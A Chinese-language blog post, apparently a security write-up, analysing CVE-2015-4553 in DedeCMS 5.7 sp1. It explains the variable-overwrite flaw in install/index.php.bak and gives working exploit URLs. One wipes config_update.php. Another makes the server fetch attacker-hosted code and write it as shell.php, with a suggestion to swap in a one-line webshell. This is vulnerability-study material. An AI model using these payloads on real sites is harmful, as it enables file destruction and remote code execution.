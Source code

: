 ```yaml
---
layout: post
title: "CVE-2015-4553 (DedeCMS 5.7 sp1遠程文件包含漏洞)"
description: ""
date: 2023-07-11
categories:
  - CVE
  - DedeCMS
author: ""
tags: ['CVE', 'DedeCMS', 'File_Inclusion']
---
```




# CVE-2015-4553 (DedeCMS 5.7 sp1遠程文件包含漏洞)

###### tags: `CVE` `DedeCMS`


這個洞也是基於 apache 解析漏洞，跟上次的重裝漏洞一樣，只不過利用的code區塊不一樣，這次被改為寫入shell

複習:

```php=
<?php echo "123" ;?>
```

存成 test.php  // 解釋為php

存成 test.txt  // 解釋為txt

存成 test.php.bak // 不認識bak 所以解析為php











### 檔案:dedecms\install\index.php.bak


這行導致了可以_GET _POST _COOKIE 任意覆寫變數 (之前講過) 


```php=

foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v) ${$_k} = RunMagicQuotes($_v);
}

```





這次利用點在這裡

```php=
else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";

	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[¡Ì]</font> ´æÔÚ(Äú¿ÉÒÔÑ¡Ôñ°²×°½øÐÐÌåÑé)';
	else
		echo '&nbsp; <font color="red">[¡Á]</font> Ô¶³Ì»ñÈ¡Ê§°Ü';
	unset($sql_content);
	fclose($fp);
	exit();
}

```


看到 require_once('../data/admin/config_update.php')

../data/admin/config_update.php 很簡單，就兩個變數
```php=

$updateHost = 'http://updatenew.dedecms.com/base-v57/';
$linkHost = 'http://flink.dedecms.com/server_url.php';

```


所以可以看成:
```php=
<?php


else if($step==11)
{
	
////////////
	$updateHost = 'http://updatenew.dedecms.com/base-v57/';
	$linkHost = 'http://flink.dedecms.com/server_url.php';
////////////


	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";

	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[¡Ì]</font> ´æÔÚ(Äú¿ÉÒÔÑ¡Ôñ°²×°½øÐÐÌåÑé)';
	else
		echo '&nbsp; <font color="red">[¡Á]</font> Ô¶³Ì»ñÈ¡Ê§°Ü';
	unset($sql_content);
	fclose($fp);
	exit();
}


?>
```
我們的變數覆寫發生在開頭，走到這很多變數都會被重新覆值

關鍵1 覆蓋$s_lang:
```
$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";

//$rmurl
http://updatenew.dedecms.com/base-v57/dedecms/demodata{$s_lang}.txt


一開頭定義是$s_lang = 'gb2312';
我們改寫為 $s_lang = '1111'


如此一來$rmurl  變成了一個不存在的檔案
http://updatenew.dedecms.com/base-v57/dedecms/demodata1111.txt

```


關鍵2 覆蓋$install_demo_name變數:
```
$fp = fopen($install_demo_name,'w');



$install_demo_name 我們把它覆蓋為 ../data/admin/config_update.php
//也就是說他會打開 ../data/admin/config_update.php 

```


所以整段代碼行為變成:

1 打開 ../data/admin/config_update.php  

2 寫入遠程不存在檔案 http://updatenew.dedecms.com/base-v57/dedecms/demodata1111.txt

3 由於 fopen 參數 "w" （寫入方式打開，清除文件內容，如果文件不存在則嘗試創建之）

4 \.\./data/admin/config_update.php 變成空



payload:
```


http://localhost/install/index.php.bak?step=11&s_lang=1111&install_demo_name=../data/admin/config_update.php&insLockfile=test
```

執行完後 
dedecms\data\admin\config_update.php  這個檔案變成空


所以再看一次

```php=
<?php
else if($step==11)
{
	
    ////////////
	require_once('../data/admin/config_update.php'); 
    //沒東西
    ////////////


	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";

	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[¡Ì]</font> ´æÔÚ(Äú¿ÉÒÔÑ¡Ôñ°²×°½øÐÐÌåÑé)';
	else
		echo '&nbsp; <font color="red">[¡Á]</font> Ô¶³Ì»ñÈ¡Ê§°Ü';
	unset($sql_content);
	fclose($fp);
	exit();
}

?>
```


如此一來更好用了，$updateHost 也可以覆蓋了






構造以下payload
```
http://localhost/install/index.php.bak?step=11&s_lang=hack&install_demo_name=../shell.php&insLockfile=test&updateHost=http://192.168.50.93/






install_demo_name=../shell.php 
//代表開啟檔名為../shell.php 


updateHost=http://192.168.50.93/
//竄改updateHost

_lang=hack
//最後會變成http://192.168.50.93/dedecms/demodata.hack.txt

```


我們在遠端創建一個dedecms資料夾裡面創建一個demodata.hack.txt 
(dedecms/demodata.xxx.txt檔名路徑被寫死所以必須加上)

http://192.168.50.93/dedecms/demodatahack.txt
```
<?php phpinfo();?>
```







### 執行完後:
出現[√] 存在(您可以选择安装进行体验) 代表成功了。

這時你已經上傳了一個 \dedecms\shell.php
當然phpinfo 也可以換成一句話木馬。

















